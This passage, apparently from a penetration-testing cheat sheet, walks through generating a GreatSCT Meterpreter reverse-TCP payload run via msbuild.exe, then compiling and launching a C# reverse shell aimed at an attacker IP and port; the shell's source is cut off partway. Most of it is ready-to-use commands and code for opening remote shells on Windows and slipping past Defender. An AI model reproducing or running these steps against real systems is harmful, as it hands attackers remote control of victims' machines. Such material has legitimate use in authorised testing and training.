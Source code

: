 Download it from: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```

Inside GreatSCT:

```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```

Now **start the lister** with `msfconsole -r file.rc` and **execute** the **xml payload** with:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

**Current defender will terminate the process very fast.**

### Compiling our own reverse shell

https://medium.com/@Bank_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### First C# Revershell

Compile it with:

```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```

Use it with:

```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;

namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
			{
```